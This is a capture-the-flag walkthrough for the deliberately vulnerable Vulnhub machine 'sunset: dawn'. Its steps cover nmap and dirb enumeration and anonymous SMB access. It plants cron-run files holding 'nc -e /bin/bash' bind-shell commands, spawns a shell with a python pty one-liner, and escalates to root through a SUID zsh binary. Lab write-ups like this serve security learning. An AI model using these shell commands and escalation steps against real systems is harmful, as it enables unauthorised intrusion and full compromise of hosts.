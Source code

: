 # Sunset-dawn-Vulnhub-Walkthrough
Sunset: dawn Vulnhub Walkthrough

**Description**
dawn is a boot2root machine with a difficulty designed to be Easy with multiple ways to be completed. It is recommended to use Virtualbox.

Vulnhub link: https://www.vulnhub.com/entry/sunset-dawn,341/

***Name: sunset: dawn
Date release: 3 Aug 2019
Author: whitecr0wz
Series: sunset***

So let's begin hacking!!

**Step 1: Scan the machine**

> nmap -sV -A <IP_address_of_your_machine>

![Screenshot](1.png)

As we can see that port 80 is open which is hosting Apache httpd service and also we have the port 139, 445, 3306 open. This tells us that we have the NetBIOS and MySQL service running on the target machine respectively.

**Step 2: Go to machine's IP in web browser**

In your web browser

>http://<IP_address_of_your_machine>  

![Screenshot](2.png)

This doesn't help us much! Let's try bruteforcing the IP with dirb.

**Step 3: Bruteforce the IP with dirb**

> dirb http://<IP_address_of_your_machine>

![Screenshot](3.png)

After bruteforcing we got a directory `logs` Let's see what it contains

In your web browser

>http://<IP_address_of_your_machine>/logs

![Screenshot](4.png)

Tried to access the various log files listed here, but it's forbidden except `management.log`

**Step 4: Access the management.log**

>cd Downloads

>cat management.log

![Screenshot](7.png)

From this we get to know there's a directory `ITDEPT` and it contains two files `web-control` and `product-control`.
As these files were mentioned with cron, we can say that these files are getting executed by some background task.

We found that there is a `NetBIOS` `SMB` port open in `nmap` result, so we can use the `enum4Linux` script. This shows that we have the `ITDEPT` directory we found earlier. This means this directory is accessible through `SMB`.

**Step 5: Access through enum4linux**

>enum4linux -a <IP_address_of_your_machine>

![Screenshot](6.png)

From this we came to know that there are two users `dawn` and `ganimedes`

![Screenshot](8.png)

**Step 6: Access through smbclient**

> smbclient //<IP_address_of_your_machine>/ITDEPT

>When asks for password press enter

![Screenshot](10.png)

Since we found the ITDEPT directory in our enumeration. We tried to access it using the SMB as shown in the sccreenshot. As we can see there is nothing there.

**Step 7: Create files**

> echo "nc -e /bin/bash -lvp 1234 &" > web-control

> echo "nc -e /bin/bash -lvp 1235 &" > product-control

![Screenshot](9.png)

We went back to our terminal and created the files by the name of `product-control` and `web-control`. We created the files by this name because earlier while enumerating the `management.log` file we saw that files with this name were executed after every minute. again and again, using cron. We also entered the `netcat` shell invocation script in those files using the `echo` command as well.

**Step 8: Upload the file**

> puts web-control

> puts product-control

![Screenshot](10b.png)

Now back to the SMB shell, we transferred the files that we just created to the target system using the put command. Both the files were successfully transferred. After the transfer, we ran the ls command to check whether the files were indeed on the system or not.

**Step 9: Check the log file**

In your web browser

>http://<IP_address_of_your_machine>/logs

>cd Downloads

(Check your new file name)
>cat management.log 

![Screenshot](11.png)

Refer to `Step 3` and `Step 4` for accessing `management.log`.
We can see that the file we created were successfully executed.

**Step 10: Using netcat**

> nc <IP_address_of_your_machine> 1234

> python -c 'import pty;pty.spawn("/bin/bash")' 

![Screenshot](12.png)

Using netcat we got our shell. For a proper shell we used the python one-liner. And after this we came to know this shell belongs to user `dawn`.

**Step 11: Acceessing root**

>find / -perm -u=s -type f 2>/dev/null

>whoami

>/usr/bin/zsh

>whoami

>cd /root

>ls

>cat flag.txt

![Screenshot](13.png)

As we got our shell, it's a regular practice to check for any file having SUID permissions with the help of `find` command.From this, we enumerated all binaries having SUID permissions:
The `find` command gave us that the `zsh` command can help us escalate privilege on this machine.
We ran the zsh command and checked our status using the `whoami` command.
We got root. Now it was time to enumerate for the flag. We traversed into the root directory and found the `flag.txt` file.

**Thank you**




